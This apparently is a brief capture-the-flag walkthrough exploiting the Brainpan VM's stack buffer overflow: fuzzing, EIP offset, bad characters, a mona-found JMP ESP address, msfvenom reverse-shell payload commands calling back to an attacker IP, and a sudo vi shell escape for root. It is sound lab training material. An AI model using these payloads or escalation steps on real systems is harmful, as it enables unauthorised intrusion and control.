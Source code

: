 # brainpan_buffer_overflow
this is a very good ctf to understand linux and windows both stack based bufferoverflow

1. use fuzze .py  --  get size where it creashes
2. create pattern --> pattern_create -l 600
3. get the eip from immunity -- 72413372 
4.  use pattern_offset with -l 600 -q 72413372 -- 520
5. fire bad chars to find what is working inside
6. open mona modules : - !mona modules  - download mona and paste in .wine/drive_c/program file x86/immuntity/pycommands

check out our file is having protections or not if not then pic the address

7. find address --
 Address=0BADF00D
 Message= 0x31170000 | 0x31176000 | 0x00006000 | False  | False   | False |  False   | False  | -1.0- [brainpan.exe] (Z:\root\Downloads\brainpan.exe)

8. open nasm shell - JMP ESP -- FFE4

9. find JMP ESp in mona -- !mona find -s “\xff\xe4” -m modules if it is not working then

close the mona modules and in immuntity go to view execcutables modules -- right click on the module and click on dump data in cpu then press ctrl +f and type JMP ESP

whoop! we go the address --  311712F3   . FFE4           JMP ESP

use these exploits 

#msfvenom -p linux/shell_reverse_tcp LHOST=your.Kali.IP.address LPORT=4444 EXITFUNC=thread -f c -a x86 –platform linux -b “\x00”
#msfvenom -p linux/x86/shell/reverse_tcp LHOST=192.168.31.148 LPORT=1337 -f c -a x86 --platform linux -b "\x00" -e x86/shikata_ga_nai
#msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.31.148 LPORT=4444 EXITFUNC=thread –e x86/alpha_upper –b “\x00” -f c


you got  a kali shell perfect 

now change the address of breainpain machine as 192.168.31.149

send you got a shell but not first time with nc so try multi handler 


type sudo -l 

use command manual vi 
!bin/bash 

---------------------------------------

again get a shell and find first user accessisable directory files 
find validate and use gdb prepare a exploit 

-----

i will also uploadloading the entire process at my blog - https://blog.certcube.com

regards,
Naresh
